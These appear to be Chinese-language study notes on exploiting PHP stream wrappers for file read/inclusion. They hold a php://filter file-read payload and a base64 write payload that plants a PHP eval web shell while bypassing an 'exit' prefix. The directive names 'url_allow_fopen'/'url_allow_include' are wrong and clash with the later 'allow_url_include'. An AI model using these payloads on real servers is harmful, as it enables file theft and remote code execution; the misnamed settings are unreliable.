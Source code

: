 # PHP中的协议利用

## ``php://input``

接收POST RAW 

需要打开 ``url_allow_fopen`` ``url_allow_include ``

## ``data://``

``data://text/plain,<phpcode>``

需要打开 ``url_allow_fopen`` ``url_allow_include ``

## ``php://filter``简单理解：

php://filter 是php中独有的一个协议，可以作为一个中间流来处理其他流，可以进行任意文件的读取；根据名字，filter，可以很容易想到这个协议可以用来过滤一些东西；

使用不同的参数可以达到不同的目的和效果：

| 名称                      | 描述                                                         | 备注 |
| ------------------------- | ------------------------------------------------------------ | ---- |
| resource=<要过滤的数据流>  | 指定了你要筛选过滤的数据流                                   | 必选 |
| read=<读链的筛选列表>      | 可以设定一个或多个过滤器名称，以管道符"\|"分割               | 可选 |
| write=<写链的筛选列表>     | 可以设定一个或多个过滤器名称，以管道符"\|“分割               | 可选 |
| <；两个链的筛选列表>       | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |      |

> Trick： read 和write 里 可以塞垃圾字符
> php://filter面对不可用的规则是报个Warning，然后跳过继续执行

### string.strip_tags

### convert 转换过滤器

- base64-encode/decode

- **convert.iconv.\***

> The convert.iconv.* filters are available, if iconv support is enabled, and their use is equivalent to processing all stream data with iconv(). These filters do not support parameters, but instead expect the input and output encodings to be given as part of the filter name, i.e. either as convert.iconv.``<input-encoding>``.``<output-encoding>`` or convert.iconv.``<input-encoding>``/``<output-encoding>`` (both notations are semantically equivalent).
>
>Example #3 convert.iconv.*
>
>```php
><?php
>$fp = fopen('php://output', 'w');
>stream_filter_append($fp, 'convert.iconv.utf-16le.utf-8');
>fwrite($fp, "T\0h\0i\0s\0 \0i\0s\0 \0a\0 \0t\0e\0s\0t\0.\0\n\0");
>fclose($fp);
>/* Outputs: This is a test. */
>?>
>```

简单来说``convert.iconv.*``相当于调用了``iconv()``

可以看这个示例

```php
<?php
echo iconv('UCS-4LE','UCS-4BE',"<?ph");
//Output:hp?<
?>
```

利用:

1. LFR/LFI

``php://filter/read=convert.base64-encode/resource=file.txt``

- ``php://input`` + POST报文php代码  (allow_url_include=On)

- ``data://text/plain,<phpcode>`` (allow_url_include=On)


2. 绕过死亡exit,关键词检测 

Example:

```
php://filter/write=string.strip_tags|convert.base64-decode/resource=?>PD9waHAgQGV2YWwoJF9QT1NUW1FmdG1dKT8+/../Qftm.php
```


## 参考资料

谈一谈php://filter的妙用:https://www.leavesongs.com/PENETRATION/php-filter-magic.html

php 可用过滤器列表 ：https://www.php.net/manual/en/filters.php

探索php://filter在实战当中的奇技淫巧 ： https://www.anquanke.com/post/id/202510

file_put_content和死亡·杂糅代码之缘 https://xz.aliyun.com/t/8163

关于file_put_contents的一些小测试 https://cyc1e183.github.io/2020/04/03/%E5%85%B3%E4%BA%8Efile_put_contents%E7%9A%84%E4%B8%80%E4%BA%9B%E5%B0%8F%E6%B5%8B%E8%AF%95/